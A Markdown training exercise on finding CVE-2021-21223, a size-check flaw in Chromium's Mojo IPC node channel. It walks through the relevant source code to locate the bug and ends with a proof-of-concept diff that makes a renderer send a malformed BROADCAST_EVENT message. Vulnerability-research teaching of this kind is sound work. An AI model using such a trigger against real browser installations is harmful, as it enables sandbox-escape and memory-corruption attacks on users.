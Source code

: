 # Exercise 3

In LEVEL 1, we can relay on Details and just to search for the func which Details mentioned. It is far away from the real bug hunting scene.

LEVEL 2 we do the same as LEVEL 1 without the help of Details.

But the bug report need Poc to assist developer reproduce the vulnerability, and know exactly what cause this bug. So LEVEL 3 need we construct Poc by ourselves.

## CVE-2021-21223
I sugget you don't search any report about it to prevents get too much info like patch. Our goal is to find some bugs, not construct Poc. But in truth, Poc can proof that we are right.



### Details

In level 3, we do it without the help of Details


---------

<details>
  <summary>For more info click me! But you'd better not do this</summary>

  https://bugs.chromium.org/p/chromium/issues/detail?id=1195308

</details>

--------

### Set environment

after fetch chromium
```sh
git reset --hard 5fea97e8b681c0a0e142f68ed03d5c4cc5862672
```



### Related code

mojo/core/node_channel.cc
<!-- mojo/core/node_channel.h
mojo/core/node_controller.cc
mojo/core/user_message_impl.cc -->

read this [design doc](https://chromium.googlesource.com/chromium/src/+/6740adb28374ddeee13febfd5e5d20cb8a365979/mojo/core#mojo-core-overview) about `mojo-code`, you can understand source code faster.


### Do it
Do this exercise by yourself, when you have some idea, you can compare your answer with me. If you find my answer have something wrong, please tell me.


---------

<details>
  <summary>My answer</summary>

  I have notice one func, and this is the only func I suspect.
  ```c++
// static
void NodeChannel::GetEventMessageData(Channel::Message* message,
                                      void** data,
                                      size_t* num_data_bytes) {
  // NOTE: OnChannelMessage guarantees that we never accept a Channel::Message
  // with a payload of fewer than |sizeof(Header)| bytes.
  *data = reinterpret_cast<Header*>(message->mutable_payload()) + 1;
  *num_data_bytes = message->payload_size() - sizeof(Header);
}
  ```
  The **comment** reminds me, `NOTE: OnChannelMessage guarantees that we never accept a Channel::Message with a payload of fewer than |sizeof(Header)| bytes.`

  Can we make `message->payload_size()` less than `sizeof(Header)`? First we need bypass OnChannelMessage to get here.

  ```c++
void NodeChannel::OnChannelMessage(const void* payload,
                                   size_t payload_size,
                                   std::vector<PlatformHandle> handles) {
  DCHECK(owning_task_runner()->RunsTasksInCurrentSequence());

  RequestContext request_context(RequestContext::Source::SYSTEM);

  if (payload_size <= sizeof(Header)) {                [1]
    delegate_->OnChannelError(remote_node_name_, this);
    return;
  }
  //[ ... ]
    case MessageType::BROADCAST_EVENT: {
    if (payload_size <= sizeof(Header))
      break;
    const void* data = static_cast<const void*>(
        reinterpret_cast<const Header*>(payload) + 1);
    Channel::MessagePtr message =
        Channel::Message::Deserialize(data, payload_size - sizeof(Header));
    if (!message || message->has_handles()) {
      DLOG(ERROR) << "Dropping invalid broadcast message.";
      break;
    }
    delegate_->OnBroadcast(remote_node_name_, std::move(message));   [2]
    return;
  }
  ```
  [1] check `payload_size <= sizeof(Header)` at begain of OnChannelMessage, and I will explain [2] alter.

  We can search for which func call `GetEventMessageData`
  ```c++
ports::ScopedEvent DeserializeEventMessage(
    const ports::NodeName& from_node,
    Channel::MessagePtr channel_message) {
  void* data;
  size_t size;
  NodeChannel::GetEventMessageData(channel_message.get(), &data, &size);  [3]
  auto event = ports::Event::Deserialize(data, size);
  if (!event)
    return nullptr;
 [ ... ]
}
===========================================================
// static
Channel::MessagePtr UserMessageImpl::FinalizeEventMessage(
    std::unique_ptr<ports::UserMessageEvent> message_event) {
  [ ... ]
  if (channel_message) {
    void* data;
    size_t size;
    NodeChannel::GetEventMessageData(channel_message.get(), &data, &size);  [4]
    message_event->Serialize(data);
  }
  return channel_message;
}
  ```
  [3] and [4] both call `GetEventMessageData`, I analysis `DeserializeEventMessage`
  ```c++
void NodeController::BroadcastEvent(ports::ScopedEvent event) {
  Channel::MessagePtr channel_message = SerializeEventMessage(std::move(event));
  DCHECK(channel_message && !channel_message->has_handles());

  scoped_refptr<NodeChannel> broker = GetBrokerChannel();
  if (broker)
    broker->Broadcast(std::move(channel_message));
  else
    OnBroadcast(name_, std::move(channel_message));        [5]
}
=================================================================
void NodeController::OnBroadcast(const ports::NodeName& from_node,
                                 Channel::MessagePtr message) {
  DCHECK(!message->has_handles());

  auto event = DeserializeEventMessage(from_node, std::move(message));  [6]
  [ ... ]
  ```
  [6] call `DeserializeEventMessage` and `BroadcastEvent` call `OnBroadcast`, this is different from [2]. [2] will check `if (payload_size <= sizeof(Header))` before call `OnBroadcast`. And this way have no check so far, maybe I am wrong.


  **Poc**
  >To reproduce the issue, please patch chrome through the following patch
  ```diff
diff --git a/mojo/core/node_channel.cc b/mojo/core/node_channel.cc
index c48fb573fea9..7ce197a579f5 100644
--- a/mojo/core/node_channel.cc
+++ b/mojo/core/node_channel.cc
@@ -17,7 +17,7 @@
 #include "mojo/core/configuration.h"
 #include "mojo/core/core.h"
 #include "mojo/core/request_context.h"
-
+#include "base/trace_event/trace_event.h"
 namespace mojo {
 namespace core {
 
@@ -327,12 +327,23 @@ void NodeChannel::AcceptInvitee(const ports::NodeName& inviter_name,
 
 void NodeChannel::AcceptInvitation(const ports::NodeName& token,
                                    const ports::NodeName& invitee_name) {
-  AcceptInvitationData* data;
-  Channel::MessagePtr message = CreateMessage(
-      MessageType::ACCEPT_INVITATION, sizeof(AcceptInvitationData), 0, &data);
-  data->token = token;
-  data->invitee_name = invitee_name;
-  WriteChannelMessage(std::move(message));
+  if (base::trace_event::TraceLog::GetInstance()->process_name() ==
+      "Renderer") {
+    void* data;
+    Channel::MessagePtr broadcast_message =
+        CreateMessage(MessageType::BROADCAST_EVENT, 16, 0, &data);
+    uint32_t buffer[] = {16, 16 + 0x10000, 0, 0};
+    memcpy(data, buffer, sizeof(buffer));
+    WriteChannelMessage(std::move(broadcast_message));
+  } else {
+    AcceptInvitationData* data;
+    Channel::MessagePtr message = CreateMessage(
+        MessageType::ACCEPT_INVITATION, sizeof(AcceptInvitationData), 0,
+        &data);
+    data->token = token;
+    data->invitee_name = invitee_name;
+    WriteChannelMessage(std::move(message));
+  }
 }
 
 void NodeChannel::AcceptPeer(const ports::NodeName& sender_name,
  ```
  
</details>

--------
